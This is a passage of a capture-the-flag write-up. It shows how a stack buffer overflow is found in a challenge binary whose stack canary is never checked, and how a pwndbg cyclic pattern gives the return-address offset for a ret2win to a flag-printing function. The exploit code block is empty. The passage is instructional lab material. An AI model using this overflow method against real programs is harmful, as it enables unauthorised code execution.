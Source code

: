 However, notice that if we try to send a long input to the program, it segfaults instead of the expected "stack smashing detected" error message.

```
root@d48544b50dc3:/ctf# python3 -c 'print("A"*200)' | ./smoll-but-angy 
You dare challenge me?
Very well, show me what you got!
Segmentation fault
```

This suggests that the program doesn't actually check the canary, even though it was compiled with `-fstack-protector`.
When we decompile the binary, we also don't see the expected `__stack_chk_fail` calls before the function returns.
This allows us to do ret2win with a standard buffer overflow.

Our win function is `treasure` which makes a system call to `cat flag`.

![](/assets/img/2025-05-11-blackbbery-ccoe-ctf-2025/angy_treasure.png)
_treasure()_

Find the offset for the buffer overflow:

```
...[SNIP]...
pwndbg> b *main+143
Breakpoint 1 at 0x8049a59
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> r
...[SNIP]...
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x6261616a in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────
 EAX  0
 EBX  0x62616168 ('haab')
 ECX  0
 EDX  0x80e9774 (_IO_stdfile_1_lock) ◂— 0
 EDI  2
 ESI  0x80e7ff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0
 EBP  0x62616169 ('iaab')
*ESP  0xffffca10 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab\n'
*EIP  0x6261616a ('jaab')
...[SNIP]...
pwndbg> cyclic -l jaab
Finding cyclic pattern of 4 bytes: b'jaab' (hex: 0x6a616162)
Found at offset 136
```

The exploit:
```python
```